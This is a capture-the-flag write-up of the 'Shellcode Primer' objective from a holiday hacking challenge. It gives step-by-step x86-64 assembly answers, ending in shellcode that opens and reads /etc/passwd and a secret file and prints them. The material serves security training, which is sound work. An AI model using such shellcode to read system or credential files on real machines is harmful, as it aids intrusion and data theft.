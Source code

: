 # Objective 6: Shellcode Primer
**Location: Jack's Office, Frost Tower, 16<sup>th</sup> Floor, https://tracer.kringlecastle.com/**
**Elf: Ruby Cyster**
**Hints provided by Chimney Scissorsticks after completion of [Holiday Hero](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Holiday%20Hero.md)**

This objective is a small training in x86 assembly language (basics and performing system calls). The background is to be able to create shellcode payloads to be used in system attacks.

1. Introduction
2. Loops
3. Getting Started
```
ret
```
4. Returning a Value
```
mov rax,1337  ; return value
ret
```
5. System Calls
```
mov rax,60    ; sys_exit
mov rdi,99    ; return code
syscall
```
6. Calling Into the Void
7. Getting RIP
```
call place_below_the_nop
nop
place_below_the_nop:
pop rax       ; pop pointer to NOP from stack
ret
```
8. Hello, World!
```
call go
db 'Hello World',0
go:
pop rax       ; pop pointer to string from stack
ret
```
9. Hello World!!
```
call go
db 'Hello World!',0
go:
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
pop rsi       ; pop pointer to buffer from stack
mov rdx,12    ; 12 bytes
syscall
ret
```
10. Opening a File
```
call go
db '/etc/passwd',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
ret
```
11. Reading a File
```
call go
db '/var/northpolesecrets.txt',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
mov rdi,rax   ; file descriptor returned from sys_open (in rax)
mov rax,0     ; sys_read
mov rsi,rsp   ; pointer to buffer on stack
mov rdx,1000; 1000 bytes to read
syscall
mov rdx,rax   ; number of bytes read returned by sys_read (in rax)
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
mov rsi,rsp   ; pointer to buffer on stack
syscall
mov rax,60    ; sys_exit
mov rdi,0     ; return code
syscall
```
The content of the file from step 11 is "Secret to KringleCon success: all of our speakers and organizers, providing the gift of **cyber security knowledge**, free to the community."

**Achievement: Shellcode Primer**

**Hint: Printer Firmware**
**Hint: Hash Extension Attacks**
**Hint: Dropping Files**
